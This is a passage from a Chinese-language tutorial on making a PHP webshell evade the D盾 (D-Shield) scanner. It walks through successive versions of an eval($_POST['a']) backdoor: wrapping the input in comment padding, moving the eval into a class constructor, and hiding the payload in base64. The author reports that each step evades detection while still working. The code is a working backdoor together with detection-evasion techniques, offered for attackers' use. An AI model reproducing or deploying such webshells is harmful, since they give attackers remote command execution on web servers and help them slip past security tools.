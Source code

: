首先，无论如何更改函数名，都会被杀掉，所以和函数名没关系，然后就是eval内的参数了，测试后发现，只要拼接成eval($_POST['a'])就会被杀，因此我们避免语句直接拼接为这样即可。

如何避免直接拼接呢 当然是往中间加料了 加一些既不会破坏语法又能起到隔离作用的东西，什么东西可以做到这样呢？当然就是注释了

比如这样的：

```
<?php  
  
function x()  
{  
  
    return "/*sasas23123*/".$_POST['a']."/*sdfw3123*/";  
  
}  
  
eval(x());  
?>  

```

这里用两段注释在"eval("与"$_POST"之间起到了隔离的作用，因此绕过了直接拼接这个规则，D盾继续杀一下

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

已经免杀成功，再看一下能否使用

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

既然如此，我们的核心绕过思路就是利用注释了，为了去除特征，必不可少的就是随机性了

使用函数返回值与eval拼接只是权宜之计，毕竟也是一条规则就能够被干掉的。

所以我们这里使用类和构造函数来替代主动调用函数，

```
<?php  
class x  
{  
  
        function __construct()  
        {        
                @eval("/*sasas23123*/".$_POST['a']."/*sdfw3123*/");  
        }  
  
}  
new x();  
  
?>  

```

改到这里，我不禁想 如果D盾发狠把".$_POST['a']."当独立规则，那岂不是也歇菜，所以，我决定使用base64编码将"$_POST['a']"转化一下

```
<?php  
class x  
{  
        public $payload = null;  
        public $decode_payload = null;  
        function __construct()  
        {       $this->payload='ZXZhbCgkX1BPU1RbYV0pOw==';  
                $this->decode_payload = @base64_decode( $this->payload );  
                @eval("/*sasas23123*/".$this->decode_payload."/*sdfw3123*/");  
        }  
  
}  
new x();  
  
```